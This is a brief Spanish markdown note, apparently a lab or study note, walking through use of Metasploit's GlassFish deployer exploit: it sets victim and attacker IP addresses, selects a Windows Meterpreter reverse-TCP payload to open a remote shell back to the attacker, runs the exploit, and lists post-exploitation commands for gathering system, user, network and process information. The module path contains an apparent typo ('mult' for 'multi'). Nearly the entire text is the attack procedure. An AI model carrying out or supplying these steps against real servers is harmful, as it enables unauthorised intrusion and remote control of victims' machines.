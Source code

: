 # Glassfish

## Pasos a seguir

Abrimos primero 'msfconsole'

Seleccionamos el módulo con 'use exploit/mult/http/glassfish_deployer'

Buscamos las opciones con 'show options'

Establecemos la dirección IP de la máquina víctima (RHOST), el tipo de payload que deseas utilizar (PAYLOAD)
y tu propia dirección IP (LHOST) para la conexión inversa:

set RHOST 192.168.1.144

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.1.143

Ejecutamos el exploit con: 'exploit'

## Una vez dentro podemos ejecutar

-sysinfo: Para obtener información sobre el sistema operativo de la máquina víctima.

-getuid: Para obtener el identificador del usuario actual en la máquina víctima.

-ipconfig: Para obtener información sobre la configuración de red de la máquina víctima(depende del sistema operativo de la víctima).

-ps: Para listar los procesos en ejecución en la máquina víctima.
